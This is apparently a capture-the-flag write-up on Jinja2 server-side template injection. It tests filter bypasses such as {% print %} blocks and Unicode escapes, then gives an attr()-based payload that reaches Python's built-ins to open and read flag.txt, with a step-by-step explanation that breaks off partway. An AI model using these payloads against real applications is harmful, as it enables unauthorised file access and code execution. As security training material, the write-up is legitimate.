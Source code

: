Now we can test the payload and debug them 😎

### Test bypasses 
#### `{% %}` Bypass 
```python 
{% print(7*7) %}
```
```txt
User Input: {% print(7*7) %}
Rendered Output: 49
Final Name Variable: Name : 49
Strength Calculation: Strength : 1176
```
*Note Same result of Strength Calculation (1176) But we now can see the **Rendered Output***
#### `\{\ \}\` Bypass 
```python
\{\{7*7\}\}
```
```txt
User Input: \{\{7*7\}\}
Rendered Output: \{\{7*7\}\}
Final Name Variable: Name : \{\{7*7\}\}
Strength Calculation: Strength : 1016
```
*Note Same result of Strength Calculation (1016) it passes the regex But **Jinja2** couldn't parse it so we will exclude it*

#### Bypass Keyword Filters with Unicode Escapes
```python
p\u006Fpen
```
```txt
User Input: p\u006Fpen
Rendered Output: p\u006Fpen
Final Name Variable: Name : p\u006Fpen
Strength Calculation: Strength : 864
```
*Note it also passes the regex But **Jinja2** couldn't parse it so we will exclude it*
### `attr` bypass 

```python
{% set a=self|attr('\u005f\u005finit\u005f\u005f')|attr('\u005f\u005fglobals\u005f\u005f')|attr('get')('\u005f\u005fbuiltins\u005f\u005f') %}
{% set b=a|attr('get')('open')('fl'+'ag\u002etxt')|attr('read')() %}
{% print b %}
```
#### Step‐by‐Step Explanation

1. **Retrieve the Built‑ins Object**
    - **`self|attr('\u005f\u005finit\u005f\u005f')`**  
        This is equivalent to accessing `self.__init__` (the initialization method of the current object).
    - **`|attr('\u005f\u005fglobals\u005f\u005f')`**  
        From the `__init__` method, this accesses the global variables via the `__globals__` attribute.
    - **`|attr('get')('\u005f\u005fbuiltins\u005f\u005f')`**  
        Then it calls the `get` method on the `globals` dictionary to retrieve the entry for `"__builtins__"`.  
        _Note: The underscores are represented by Unicode escapes (`\u005f`) to avoid direct detection by filters._
    **Result:**  
    The variable `a` now holds the built‑ins object, which gives access to Python’s built‑in functions like `open`.
2. **Open and Read the File "flag.txt"**
    - **`a|attr('get')('open')`**  
        This retrieves the built‑in `open` function from the built‑ins object.
    - **`('fl'+'ag\u002etxt')`**  